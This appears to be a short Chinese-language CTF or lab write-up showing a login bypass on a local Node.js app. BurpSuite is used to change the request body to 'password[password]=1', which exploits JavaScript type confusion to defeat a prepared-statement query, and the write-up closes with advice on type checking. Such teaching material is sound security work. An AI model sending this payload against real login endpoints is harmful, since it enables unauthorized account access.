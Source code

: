 ## 考点

通过`JavaScript`的类型绕过预查询语句的防护。

## 工具

`BurpSuite`

## 步骤

1. 拦截正常登陆的包：

   ```yaml
   POST /auth HTTP/1.1
   Host: 192.168.0.102:3000
   Content-Length: 35
   Cache-Control: max-age=0
   Upgrade-Insecure-Requests: 1
   Origin: http://192.168.0.102:3000
   Content-Type: application/x-www-form-urlencoded
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.82 Safari/537.36
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
   Referer: http://192.168.0.102:3000/
   Accept-Encoding: gzip, deflate
   Accept-Language: zh-CN,zh;q=0.9
   Cookie: connect.sid=s%3A69M4yxkcHdAsLwQx9JullM_JDzlalDFg.mVOeagjY0jMf6Q5e1%2BG6Bb2v6ORdpmcbCJlrTgdFFZ4
   Connection: close
   
   username=admin&password=1
   ```

2. 修改`body`为`username=admin&password[password]=1`，此时在后端的查询为：

   ```sql
   > SELECT * FROM accounts WHERE username = 'admin' AND password = `password` = 1;
   该查询语句等价于下面这句：
   > SELECT * FROM accounts WHERE username = 'admin' AND 1 = 1;
   也就是：
   > SELECT * FROM accounts WHERE username = 'admin';
   ```


## 总结

使用了预查询语句也并非高枕无忧，使用JavaScript这种弱类型的语言，要记得在必要的地方进行类型检查。
